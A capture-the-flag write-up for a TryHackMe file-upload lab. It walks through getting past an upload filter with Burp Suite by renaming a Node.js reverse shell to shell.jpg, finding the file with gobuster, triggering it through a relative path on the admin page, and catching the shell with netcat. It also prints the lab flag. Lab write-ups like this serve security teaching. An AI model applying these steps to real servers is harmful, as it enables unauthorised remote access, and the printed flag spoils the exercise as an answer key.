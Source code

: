 Then go to here and get a reverse shell for node.js: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs

Make a `shell.js` and change the port and IP. Try and upload and see if it works.

Open Burp Suite with intercept on. Remember when refresh site do with crtl+f5. Forward until you get upload and respond to that. Forward again until you get the response. Delete the filtering and upload the `shell.js`. It will not work due to server-filter. Therefor change the `shell.js` to `shell.jpg` and upload again. Sucess!

Run a gobuster scan and check response:

```
└─$ gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist.txt -x jpg
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jewel.uploadvulns.thm/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                UploadVulnsWordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              jpg
[+] Timeout:                 10s
===============================================================
2021/04/16 08:06:44 Starting gobuster in directory enumeration mode
===============================================================
/AAQ.jpg              (Status: 200) [Size: 380]
/ABH.jpg              (Status: 200) [Size: 705442]
/LKQ.jpg              (Status: 200) [Size: 444808]
/SAD.jpg              (Status: 200) [Size: 247159]
/UAD.jpg              (Status: 200) [Size: 342033]
                                                  
===============================================================
2021/04/16 08:10:29 Finished
===============================================================

```

New file is `AAQ.jpg`. Go to admin page and run `../content/AAQ.jpg` because you are in modules so you need to go one folder up.

Remember to setup netcat with the port you specified in the revershell and BOOM! You are in!

Hack the machine and grab the flag from /var/www/

```
THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}
```

